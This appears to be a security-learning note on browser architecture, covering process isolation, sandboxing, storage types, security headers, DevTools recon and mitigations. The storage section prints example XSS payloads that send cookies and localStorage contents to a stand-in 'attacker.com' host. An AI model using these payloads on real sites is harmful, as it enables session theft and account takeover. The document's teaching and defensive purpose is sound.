



# Browser Architecture

> **The browser is where your exploits land — understanding how it works makes you a better attacker and defender.**

---

## 🧠 What Is It? (Beginner Explanation)

The browser is the most complex piece of software on your computer. It's essentially an operating system within an operating system — it runs untrusted code (JavaScript) from millions of different sources while trying to keep your system safe.

For attackers: The browser is the delivery mechanism for XSS payloads, CSRF exploits, clickjacking, and more. For defenders: The browser provides security mechanisms (SOP, CSP, sandboxing) that, when understood and used correctly, dramatically reduce attack surface.

---

## 🏗️ Browser Components

### Rendering Engines

| Browser        | Rendering Engine | JS Engine      | Notes                                        |
|----------------|------------------|----------------|----------------------------------------------|
| Chrome/Edge    | Blink            | V8             | Used by 70%+ of web users; Chromium-based    |
| Firefox        | Gecko            | SpiderMonkey   | Most privacy-focused; strong security sandbox|
| Safari         | WebKit           | JavaScriptCore | Apple platforms; stricter ITP (tracking prev)|
| Opera          | Blink            | V8             | Chromium-based                               |
| Brave          | Blink            | V8             | Chromium-based with privacy shields          |

### Chrome Multi-Process Architecture

Chrome introduced "process isolation" — each tab runs in its own OS process:



**Security implication of process isolation:**
- Spectre/Meltdown: side-channel attacks that read across process boundaries → Site Isolation (CORB/CORP)
- If a renderer process is compromised by a browser exploit, the attacker still needs a **sandbox escape** to access the OS

---

## 🏗️ Critical Rendering Path



**Parser blocking:** `<script>` tags without `async` or `defer` block HTML parsing — the browser must download and execute JS before continuing. This is why `<script>` tags belong at the end of `<body>`.

**Security relevance of rendering:**
- **MIME type sniffing:** Browser may execute content despite wrong Content-Type
- **HTML injection:** Injecting `<script>` causes DOM modification and JS execution
- **CSS injection:** Can be used to exfiltrate data (CSS attribute selectors + background-image requests)
- **iFrame rendering:** Cross-origin iframes get their own render process

---

## ⚙️ Browser Sandbox

The browser sandbox restricts what renderer processes can do:



**What the sandbox blocks:**
- Direct file system access (reads/writes go through browser process)
- Network socket creation (network goes through network service process)
- Accessing memory of other processes

**Sandbox escape CVEs:**
- **CVE-2021-30551** (Chrome): Mojo IPC type confusion → heap corruption → escape
- **CVE-2022-1096** (Chrome): V8 type confusion, exploited in the wild
- **CVE-2023-2033** (Chrome): V8 type confusion, actively exploited
- **Pwn2Own** competition regularly demonstrates sandbox escapes

---

## ⚙️ Browser Storage — Security Deep Dive

### Cookies

```http
Set-Cookie: sessionid=abc123; 
            Domain=.example.com; 
            Path=/; 
            Expires=Wed, 21 Oct 2025 07:28:00 GMT;
            HttpOnly; 
            Secure; 
            SameSite=Strict
```

| Attribute       | Value Options          | Security Meaning                                              |
|-----------------|------------------------|---------------------------------------------------------------|
| `HttpOnly`      | flag (no value)        | **Cannot be read by JavaScript** — prevents XSS cookie theft |
| `Secure`        | flag (no value)        | Only sent over HTTPS — prevents plaintext interception        |
| `SameSite`      | Strict / Lax / None    | Controls cross-site sending — CSRF protection                 |
| `Domain`        | `.example.com`         | Dot prefix = includes subdomains → subdomain XSS can steal it|
| `Path`          | `/`, `/admin`          | Limits cookie scope to path                                   |
| `Expires`/`Max-Age` | date or seconds    | Session cookie (no expiry) vs persistent cookie               |

**SameSite values explained:**

| Value    | GET (top-level nav) | POST (cross-site) | Security Level |
|----------|---------------------|-------------------|----------------|
| `Strict` | Not sent            | Not sent          | Maximum — breaks OAuth flows |
| `Lax`    | **Sent**            | Not sent          | **Default in modern browsers** — stops CSRF for most forms |
| `None`   | Sent                | Sent              | No protection — requires `Secure` flag |

**XSS Cookie Theft (if HttpOnly is NOT set):**
```javascript
// Attacker's XSS payload — steal cookie
document.location = 'https://attacker.com/steal?c=' + document.cookie;

// Or via fetch
fetch('https://attacker.com/steal?c=' + btoa(document.cookie));

// Via image tag (simpler, works in more contexts)
new Image().src = 'https://attacker.com/?c=' + encodeURIComponent(document.cookie);
```

### localStorage

```javascript
// Set
localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiJ9...');

// Get
localStorage.getItem('token');

// Delete
localStorage.removeItem('token');

// Clear all
localStorage.clear();
```

**Properties:**
- Scoped to **origin** (scheme + hostname + port)
- **Persists** across browser sessions (survives browser close/reopen)
- **Survives incognito** restart? No — incognito localStorage is cleared on window close
- **XSS accessible:** No `HttpOnly` equivalent — if attacker has XSS, they get everything in localStorage
- **Size:** ~5-10MB per origin

**Common security mistake:** Storing JWTs in localStorage → XSS steals the JWT → permanent account takeover

```javascript
// XSS payload to steal localStorage
const loot = JSON.stringify(localStorage);
fetch('https://attacker.com/steal', {method:'POST', body:loot});
```

### sessionStorage

Same API as localStorage but:
- Scoped to **tab** — closing tab clears it
- Not shared between tabs (even same origin)
- **Still XSS accessible**
- Use case: Wizard form data, per-tab auth state

### IndexedDB

- Full structured database (key-value + indices) stored in browser
- Asynchronous API
- Much larger storage (hundreds of MB)
- **XSS accessible** — all JS in the origin can read it
- Used by: PWAs, complex web apps for offline data

```javascript
// XSS: dump IndexedDB
const req = indexedDB.open('myDatabase');
req.onsuccess = (e) => {
    const db = e.target.result;
    const tx = db.transaction(db.objectStoreNames, 'readonly');
    // exfiltrate...
};
```

### Cache API (Service Worker)

- Service workers can intercept and cache all network requests
- **Persistent** across sessions
- **Attack:** If attacker can register a malicious service worker (via XSS + lax restrictions), they can intercept all future requests on that origin even after the XSS is gone!

```javascript
// Check if service workers are registered (pentest recon)
navigator.serviceWorker.getRegistrations().then(regs => console.log(regs));
```

### Storage Comparison Table

| Storage Type  | XSS Accessible | Survives Close | Origin-Scoped | Size    | JavaScript API  |
|---------------|----------------|----------------|---------------|---------|-----------------|
| Cookie (no HttpOnly)| ✅ Yes  | If persistent  | + subdomains  | 4KB     | `document.cookie` |
| Cookie (HttpOnly)| ❌ No      | If persistent  | + subdomains  | 4KB     | None (server only) |
| localStorage  | ✅ Yes         | ✅ Yes         | Exact origin  | ~5-10MB | `localStorage`  |
| sessionStorage| ✅ Yes         | ❌ No (tab)    | Exact origin  | ~5-10MB | `sessionStorage`|
| IndexedDB     | ✅ Yes         | ✅ Yes         | Exact origin  | ~GB     | `indexedDB`     |
| Service Worker Cache| Complex (SW)| ✅ Yes      | Exact origin  | ~GB     | `caches`        |

---

## 🔒 Browser Security Mechanisms

### CORS Enforcement

Browser enforces CORS (Cross-Origin Resource Sharing) automatically:

```javascript
// This will be blocked by browser if no CORS headers:
fetch('https://api.bank.com/account/balance')
  .then(r => r.json())
  .then(data => steal(data));

// Browser adds Origin: header to cross-origin requests
// Server must respond with Access-Control-Allow-Origin: https://attacker.com
// Without that header, the browser blocks the response (not the request!)
```

> ⚠️ The browser SENDS the request — it just blocks JavaScript from READING the response. CSRF still works!

### Mixed Content Blocking

Modern browsers block **active mixed content** (scripts, iframes) on HTTPS pages from HTTP sources:

```html
<!-- BLOCKED on HTTPS page -->
<script src="http://cdn.example.com/jquery.js"></script>
<iframe src="http://widget.example.com/"></iframe>

<!-- Allowed but warned (passive mixed content) in some browsers -->

```

### iframe Security

```html
<!-- Sandbox attribute — restrict iframe capabilities -->
<iframe src="https://third-party.com" 
        sandbox="allow-scripts allow-same-origin">
</iframe>

<!-- Sandbox values -->
<!-- sandbox="" (empty)        - most restrictive, blocks everything -->
<!-- allow-scripts             - allow JS execution -->
<!-- allow-same-origin         - allow same-origin access (DANGEROUS with allow-scripts!) -->
<!-- allow-forms               - allow form submission -->
<!-- allow-popups              - allow window.open() -->
<!-- allow-top-navigation      - allow navigating parent frame -->
```

> ⚠️ **Critical:** `sandbox="allow-scripts allow-same-origin"` together effectively nullifies sandboxing — the JS can modify the sandbox attribute and escape!

### MIME Type Sniffing

Without `X-Content-Type-Options: nosniff`, browsers may ignore the declared Content-Type and "sniff" the actual content type:

```
Server sends:  Content-Type: text/plain
Content:       <script>alert(1)</script>

Old IE:        "Looks like HTML to me!" → executes as HTML → XSS!
Chrome/Firefox with nosniff: Respects text/plain → no execution
```

```http
X-Content-Type-Options: nosniff
```

### X-Frame-Options and frame-ancestors

```http
# Legacy header — prevent clickjacking
X-Frame-Options: DENY          # Cannot be framed at all
X-Frame-Options: SAMEORIGIN    # Only same-origin framing
X-Frame-Options: ALLOW-FROM https://trusted.com  # Specific origin

# Modern CSP replacement (more flexible)
Content-Security-Policy: frame-ancestors 'none';          # No framing
Content-Security-Policy: frame-ancestors 'self';          # Same-origin only
Content-Security-Policy: frame-ancestors https://trusted.com;  # Specific
```

### Referrer-Policy

Controls what's sent in the `Referer` header (note: it's intentionally misspelled in HTTP):

```http
Referrer-Policy: no-referrer                    # Never send Referer
Referrer-Policy: strict-origin-when-cross-origin  # Default (good)
Referrer-Policy: unsafe-url                    # Full URL always (leaks paths/queries)
```

**Attack:** If `Referrer-Policy` is too permissive, password reset tokens in URLs can leak via Referer header to third-party resources on the page.

### Permissions Policy (formerly Feature Policy)

```http
Permissions-Policy: camera=(), microphone=(), geolocation=()
Permissions-Policy: camera=(self "https://video.example.com")
```

Blocks access to browser features — important for limiting damage from XSS.

---

## 🛠️ Browser DevTools for Pentesters

### Network Tab

```
- View all HTTP requests with headers, bodies, timing
- Right-click → Copy as cURL → replay with modifications
- Filter by type: XHR/Fetch (API calls), JS, CSS, WS (WebSocket)
- View WebSocket frames in real-time
- Check for sensitive data in responses
- Look for CORS headers (Access-Control-Allow-Origin)
- Check for security headers (CSP, HSTS, X-Frame-Options)
```

### Application Tab

```
- Storage → Cookies: view all cookies, modify them, look for httpOnly/secure flags
- Storage → localStorage: read/write all localStorage data
- Storage → sessionStorage: view session data
- Storage → IndexedDB: browse database contents
- Service Workers: see registered SWs, inspect cache
- Cache Storage: view service worker cached responses
- Manifest: PWA manifest details
```

### Console

```javascript
// Useful console commands for pentesting

// View all cookies (HttpOnly ones NOT shown)
document.cookie

// View localStorage
Object.entries(localStorage)

// Make authenticated request (using existing session cookies)
fetch('/api/admin/users').then(r=>r.json()).then(console.log)

// Check CSP
document.querySelector("meta[http-equiv='Content-Security-Policy']")

// Find all forms
document.querySelectorAll('form')

// Check for postMessage handlers
// (look for window.addEventListener('message', ...) in Sources tab)
```

### Sources Tab

```
- View all JavaScript source files
- Set breakpoints — pause JS execution and inspect variables
- Look for: hardcoded API keys, secrets, internal endpoints, commented-out debug code
- Search across all files: Ctrl+Shift+F
- "Pretty print" minified JS: {} button at bottom
- Snippets: save JS payloads for quick reuse
```

### Security Panel

```
- Certificate details (issuer, expiry, CT logs)
- Connection security (protocol version, cipher suite)
- Mixed content errors
- Security policy violations
```

---

## 🔴 Browser as Recon Tool

```javascript
// In browser console on target site:

// 1. Find all endpoints referenced in HTML
document.querySelectorAll('[src],[href],[action]').forEach(e => 
  console.log(e.src || e.href || e.action)
);

// 2. List all cookies
document.cookie.split(';').forEach(c => console.log(c.trim()));

// 3. Check all JS files loaded (potential secrets)
performance.getEntriesByType('resource')
  .filter(r => r.initiatorType === 'script')
  .map(r => r.name);

// 4. Check localStorage contents
console.table(Object.entries(localStorage));

// 5. Find all forms and their actions
document.querySelectorAll('form').forEach(f => 
  console.log({action: f.action, method: f.method, inputs: [...f.elements].map(e=>e.name)})
);

// 6. Check for common frameworks
console.log({
  angular: !!window.angular,
  react: !!window.React,
  vue: !!window.Vue,
  jquery: !!window.$
});
```

---

## 🔴 Browser Extensions as Attack Surface

**Dangerous extension patterns:**
- Content scripts with broad `<all_urls>` permissions can read/modify any page
- Extensions storing auth tokens in `chrome.storage.sync` (synced to cloud!)
- Extensions with `webRequest` permission can intercept and modify all requests
- Malicious extensions can keylog, screenshot, exfiltrate browsing history

**Pentesting extensions:**
- Malicious extensions can bypass CSP (they run in a privileged context)
- Chrome extension storage is accessible: `chrome.storage.local.get(null, console.log)` in extension context

---

## 🔍 Detection

| Threat                    | Detection                                                            |
|---------------------------|----------------------------------------------------------------------|
| Malicious localStorage use | CSP `connect-src` restricts where XSS can send stolen data          |
| Cookie theft              | `HttpOnly` flag; monitor for unexpected auth from new IPs           |
| Malicious SW registration | Service-Worker-Allowed header restriction; regular SW audit          |
| iFrame-based attacks      | `frame-ancestors` CSP directive; X-Frame-Options header             |
| Extension malware         | Enterprise policy to restrict extensions; audit extension permissions|

---

## 🛡️ Mitigation

| Storage Type  | Best Practice                                                        |
|---------------|----------------------------------------------------------------------|
| Cookies       | Always set `HttpOnly`, `Secure`, `SameSite=Lax`                     |
| JWTs          | Store in memory (JS variable) or `HttpOnly` cookie — NOT localStorage|
| Sensitive data| Never store in localStorage/sessionStorage; use short-lived tokens  |
| Service Workers| Restrict SW scope; use `Service-Worker-Allowed` header              |

---

## 📚 References

- [MDN Web Docs — Browser storage APIs](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API)
- [Google Chrome — Multi-Process Architecture](https://www.chromium.org/developers/design-documents/multi-process-architecture/)
- [MDN — HTTP Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [OWASP — HTML5 Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html)
- [Google Project Zero — Sandbox Escape Research](https://googleprojectzero.blogspot.com/)
- [Web.dev — Critical Rendering Path](https://web.dev/critical-rendering-path/)
